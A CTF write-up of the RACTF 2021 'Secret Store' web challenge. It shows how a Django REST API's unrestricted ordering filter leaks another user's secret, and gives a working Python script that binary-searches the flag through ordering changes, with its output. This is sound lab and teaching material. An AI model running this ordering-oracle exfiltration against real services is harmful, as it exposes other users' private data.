



# Really Awesome CTF 2021 - Writeups

This was the second edition of the [Really Awesome CTF](https://2021.ractf.co.uk/), organized by a group of UK students, with a shared interest in cybersecurity.


It was really awesome to me and I had a lot of fun with some challenges. 

We finished in 16o place, with 6000 points solving:
* 5 out of 7 Web challenges
* All of the 6 OSINT
* 6 out of 7 Misc
* 6 out of 8 Pwn
* 1 out of 6 Stego



# Secret Store: Server-side Exfiltration (Web)

```How many secrets could a secret store store if a store could store secrets? (300 points)```

## Understanding

We are presented with a Django App, with a login/registration, where we add a new user and have a very simple app to store secrets.



Sending the secret took me some time because I had to figure out how to work with django REST CSRF Token. 
It is a simple POST with the JSON in the format expected above.

(For all of the examples, I'll jump the login code to get a new session. I'll provide the complete code later)

```python
def send_secret(session, secret_value):
    secret = {'value': secret_value}
    response = session.post('{}/api/secret/'.format(host), json=secret, headers={'X-CSRFToken': session.cookies['csrftoken']})

    return json.loads(response.text)
```

After posting, the secret appears for the logged user:



## Source

We are provided with the source-code, which is a [Django-REST](https://www.django-rest-framework.org/) API.

If you ever tried Django-REST-Framework, you'll see this is a quite simple API, to expose the Secret Model, which is the code responsible for defining the data, backed by a sqlite database:

```python
class Secret(models.Model):
    value = models.CharField(max_length=255)
    owner = models.OneToOneField(User, on_delete=CASCADE)
    last_updated = models.DateTimeField(auto_now=True)
    created = models.DateTimeField(auto_now_add=True)
```
We see above that the value data is saved and related to the owner (no surprises here).

We also have a ViewSet, which is kind of a middleware to translate and filter the data to be serialized for communication with the client:

```python
class SecretViewSet(viewsets.ModelViewSet):
    queryset = Secret.objects.all()
    serializer_class = SecretSerializer
    permission_classes = (IsAuthenticated & IsSecretOwnerOrReadOnly,)
    filter_backends = [filters.OrderingFilter]
    ordering_fields = "__all__"

# ignoring the useless RegisterFormView to save some space

def home(request):
    if request.user.is_authenticated:
        secret = Secret.objects.filter(owner=request.user)
        if secret:
            return render(request, "home.html", context={"secret": secret[0].value})
    return render(request, "home.html")
```

### Summary
* The **home** view, which filters the secret ONLY FROM THE OWNER (shit!) and renders it using home.html. This is the screen we saw with the script earlier.
* The **SecretViewSet** is responsible for configuring the the data for the API.
  * This is the most important piece of code for solving the challenge! (We'll come back here later)
  * For now, it's important to look at the **permission_classes**
  *  It allows us to look at other peoples secrets as read-only??

Let's test!

```python
def get_all_secrets(session):
    response = session.get('{}/api/secret/'.format(host))

    all_secrets = json.loads(response.text)
    return all_secrets
```

And after running:

```json
[
  {
    "id": 1,
    "owner": 1,
    "last_updated": "2021-08-04T21:55:59.750611Z",
    "created": "2021-08-04T21:55:32.221867Z"
  },
  {
    "id": 2,
    "owner": 3,
    "last_updated": "2021-08-13T21:45:00.808400Z",
    "created": "2021-08-13T20:18:43.104321Z"
  },
  {
    "id": 3,
    "owner": 16,
    "last_updated": "2021-08-14T11:19:54.204902Z",
    "created": "2021-08-13T22:18:20.206686Z"
  },
  // Jumping a lot of lines..
  {
    "id": 781,
    "owner": 935,
    "last_updated": "2021-08-23T08:56:19.575761Z",
    "created": "2021-08-18T07:39:57.075525Z"
  },
  {
    "id": 782,
    "owner": 938,
    "last_updated": "2021-08-23T08:38:16.858293Z",
    "created": "2021-08-23T07:37:33.104425Z"
  }
]
```

I'm showing the real data of the challenge here, because it helps the analysis.
We get all of the secrets metadata, but we just don't receive the secret value itself.

If you look at the message with ID=1, you'll see it was created days before the CTF. It is most probably where our flag is but... it does not show the flag.

## A lot of wrong ways

Before understanding what to do, we tried a lot of stuff, without success:
* Abusing the Debug mode for recon: nothing we didn't already knew
* Sending and receiving different Content-Types: there was some interesting behaviour here when trying to get HTML, but... no deal.
* Changing the owner of the POST: but the permission was good enough to block it.
* PUTing instead of POSTing: Bleh.

## Finally, somewhere to go

We just kept studying more of the default behaviour of the REST-Framework and we found something really interesting: [the **ordering**](https://www.django-rest-framework.org/api-guide/filtering/):


```text
By default, the query parameter is named 'ordering', but this may by overridden with the ORDERING_PARAM setting.

For example, to order users by username:

http://example.com/api/users?ordering=username
```

If we go back to the SecretViewSet, you'll see that the ordering is enabled:

```python
class SecretViewSet(viewsets.ModelViewSet):
    # ignoring some garbage here
    filter_backends = [filters.OrderingFilter] # Gotcha!
    ordering_fields = "__all__"
```

By sending a query string **ordering=value**, we'll just get the values ordered by Secret!

But... how the ordering can help us?

In fact, for exfiltration purposes, small pieces of information like this may be enough to extract a lot of data. 
I'll explain, but let's understand the ordering effect first.

First of all: we know the flag format is **ractf{something}**. This helps us on proving our point. 

If we send a secret "**q**", it must appear before the flag in an ordered query. If we send a secret "**s**", it must appear after the flag!

It's just theory. Let's test it. 

To avoid it bringing a lot of garbage from other players, better having a feature to filter only interesting IDs. Also, we are only interested in the IDs.

```python
def get_filtered_secrets(session, sec_id_filter):
    response = session.get('{}/api/secret/?format=json&ordering=value'.format(host))

    all_secrets = json.loads(response.text)
    result = [sec['id'] for sec in all_secrets if sec['id'] in sec_id_filter]  

    return result
```

And below is a proof of concept:

```python
s1 = get_session(username1, password1)
secQ = send_secret(s1, "q")
s2 = get_session(username2, password2)
secS = send_secret(s2, "s")

print("ID 'Q': ", secQ['id'])
print("ID 'S': ", secS['id'])

all_secs = get_filtered_secrets(s1, [1, secQ['id'], secS['id']])
print('Ordered IDs:')
print(json.dumps(all_secs, indent=2))
```

And the result:

```
ID 'Q':  14
ID 'S':  254
Ordered IDs:
[
  14,
  1,
  254
]
```

Great! Our flag, started with 'r', is between 'q' and 's' in an ordered query.

But again: what is means? (I wont ask again!)

## Searching for Flags

Since we control the ordering, we can infer the next char of the flag. For example: if I send a secret **ractf{a**, and the real flag starts with **ractf{d**, my secret will be ordered before the flag. 
If I send the flag **ractf{e**, my secret will appear after the flag.

By testing ordering every "next-char" with the flag until it changes position, we can find out which char is next.

In the example above, I would test:
* **ractf{a**
* **ractf{b**
* **ractf{c**
* **ractf{d**
* **ractf{e**

When the ordering changes, we have our next char :)

BUT!

If we do it char by char like this, we are using a very "expensive" solution. A good solution here is to use a [Binary Search](https://en.wikipedia.org/wiki/Binary_search_algorithm).
I won't explain details, but basically we cut half the search space on each step, making the brute-forcing much faster (and saving some infra from our organizers).

Another approach could be creating some users and secrets for each of them, dividing the search space in smaller blocks but... I would still need to send a lot of requests (for changing these user secrets). Not sure it would be better and with a much more complex algorithm. Let's go on the simple and effective binary search.

Our brute-force strategy will be:
1) Use a group of possible chars to minimize the search (not every ascii char)
2) Start searching with the next char after the flag start **ractf{<nextch>**
3) Use the Binary search to find the next char
4) Attach the found char on the flag
5) If the char found is not "**}**" (end of flag), Go back to step 3

## Coding time

Let's break the solution in two pieces.

1) The brute-forcing algorithm structure

We have a main loop looking for the last char ('}') and a position-loop looking for the next char.

The binary search algo is generic and receives a function reference, which returns True if the test was successful, and the binary search chooses which half of the search space to go next, until we only have only 1 possible char.

```python
# ractf{a-zA-Z0-9_-}
CHARSET = '-0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ_abcdefghijklmnopqrstuvwxyz}*'
FLAG_PREFIX = 'ractf{'
FLAG_SEC_ID = 1

username = 'neptunian'
password = 'myrealbankaccountpasswordwithmillions'

# My Ugly Binary Search
def binarySearch(minValue, maxValue, targetFunc, params):
    minSize = minValue
    maxSize = maxValue

    while maxSize > minSize:
        current = math.ceil((minSize + maxSize) / 2)

        params['min'] = minValue
        params['max'] = maxValue
        params["value"] = current

        if targetFunc(params):
            minSize = current
            current = math.ceil((minSize + maxSize) / 2)
        else:
            maxSize = current-1

    return minSize

# Next Char
def brute_next_char(session, current):
    return binarySearch(
        minValue=0,
        maxValue=len(CHARSET)-1,
        targetFunc=test_char, 
        params={
            'session': session,
            'current': current
        }
    )

# Main Loop
def bruteFlag(session, prefix):
    current = prefix
    ch_found = '{'

    while (ch_found != '}'):
        found = brute_next_char(session, current)
        ch_found = get_char(found)
        current = current + ch_found
        print_status(current)

if __name__ == '__main__':
    brute_session = get_session(username, password)
    bruteFlag(brute_session, FLAG_PREFIX)
```

2) The Char Testing

In here we really make the test:
* Send a new char as secret
* Get our secrets
* Check the order
* Return True if Flag ID is after our flag (the ordering change we are looking for)

The **get_filtered_secrets** function filter only the ID=1 (flag) and ours (sec.id) - the rest is secrets sent by other players.

```python
def get_char(pos):
    return CHARSET[pos]

def test_char(params):
    session = params['session']
    current_flag = params['current']
    charpos = params['value']

    current_ch = get_char(charpos)

    sec = send_secret(session, current_flag+current_ch)
    all_secs = get_filtered_secrets(session, [FLAG_SEC_ID, sec['id']])

    return all_secs.index(FLAG_SEC_ID) > all_secs.index(sec['id'])
```

## Fire in the Hole!

Now stop the bullshit and run the thing.

```python
$ python attack.py 
## ignoring some debugging prints here

CURRENT FLAG: ractf{d
CURRENT FLAG: ractf{da
CURRENT FLAG: ractf{dat
CURRENT FLAG: ractf{data
CURRENT FLAG: ractf{data_
CURRENT FLAG: ractf{data_e
CURRENT FLAG: ractf{data_ex
CURRENT FLAG: ractf{data_exf
CURRENT FLAG: ractf{data_exf1
CURRENT FLAG: ractf{data_exf1l
CURRENT FLAG: ractf{data_exf1l_
CURRENT FLAG: ractf{data_exf1l_v
CURRENT FLAG: ractf{data_exf1l_vi
CURRENT FLAG: ractf{data_exf1l_via
CURRENT FLAG: ractf{data_exf1l_via_
CURRENT FLAG: ractf{data_exf1l_via_s
CURRENT FLAG: ractf{data_exf1l_via_s0
CURRENT FLAG: ractf{data_exf1l_via_s0r
CURRENT FLAG: ractf{data_exf1l_via_s0rt
CURRENT FLAG: ractf{data_exf1l_via_s0rt1
CURRENT FLAG: ractf{data_exf1l_via_s0rt1n
CURRENT FLAG: ractf{data_exf1l_via_s0rt1ng
CURRENT FLAG: ractf{data_exf1l_via_s0rt1ng_
CURRENT FLAG: ractf{data_exf1l_via_s0rt1ng_0
CURRENT FLAG: ractf{data_exf1l_via_s0rt1ng_0c
CURRENT FLAG: ractf{data_exf1l_via_s0rt1ng_0c6
CURRENT FLAG: ractf{data_exf1l_via_s0rt1ng_0c66
CURRENT FLAG: ractf{data_exf1l_via_s0rt1ng_0c66d
CURRENT FLAG: ractf{data_exf1l_via_s0rt1ng_0c66de
CURRENT FLAG: ractf{data_exf1l_via_s0rt1ng_0c66de4
CURRENT FLAG: ractf{data_exf1l_via_s0rt1ng_0c66de47
CURRENT FLAG: ractf{data_exf1l_via_s0rt1ng_0c66de47z
CURRENT FLAG: ractf{data_exf1l_via_s0rt1ng_0c66de47z}
```

Looks like your secrets are not that safe

```text
ractf{data_exf1l_via_s0rt1ng_0c66de47z}
```

# Follow the solution

If you want to follow the solution presented here, the source code of the challenge and the brute force app are [available in the repo](https://github.com/Neptunians/ractf-2021-writeup).

1) Generate a secret key for the app

The app expects the key from the environment variable.

```bash
$ python
Python 3.8.9 (default, Apr  3 2021, 01:00:00) 
[GCC 7.5.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from django.core.management.utils import get_random_secret_key
>>> print(get_random_secret_key())
%mn3&_p93bwcmq(53aelv$!0)@7z6h95derig1hh_cy)3wd@+=
>>> 
>>> quit()
$ export SECRET_KEY='%mn3&_p93bwcmq(53aelv$!0)@7z6h95derig1hh_cy)3wd@+='
```

2) Run the server! (src/manage.py)

```bash
$ python manage.py runserver
Watching for file changes with StatReloader
Performing system checks...

System check identified no issues (0 silenced).
August 24, 2021 - 23:43:49
Django version 3.2.4, using settings 'secretstore.settings'
Starting development server at http://127.0.0.1:8000/
Quit the server with CONTROL-C
```

Now it works locally:

```html
$ curl localhost:8000/
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Secret Store</title>
</head>
<body>
    

  <p>You are not logged in</p>
  <a href="/auth/login/">Log In</a>
  <a href="/auth/register">Register</a>


</body>
</html>
```

The database in the repo already have the flag.
If you wanna start with an empty DB, you should create the first user (admin?) and set the first secret to the flag.

# Contact

* Team: [FireShell](https://fireshellsecurity.team/)
* Team Twitter: [@fireshellst](https://twitter.com/fireshellst)
* Follow me too :) [@NeptunianHacks](twitter.com/NeptunianHacks)

# References

* CTF Time Event: https://ctftime.org/event/1354
* Really Awesome CTF: https://2021.ractf.co.uk/
* CTF Discord: https://discord.gg/Rrhdvzn
* Repo with the artifacts discussed here: https://github.com/Neptunians/ractf-2021-writeup
* My Writeups on RACTF-2020 (Portuguese): https://neptunian.medium.com/really-awesome-ctf-quarentena-3f2d9095ee3d
* Django-REST-Framwork: https://www.django-rest-framework.org/
* Django-REST-Framework - Ordering and Filtering: https://www.django-rest-framework.org/api-guide/filtering/
* Binary Search ALgorithm: https://en.wikipedia.org/wiki/Binary_search_algorithm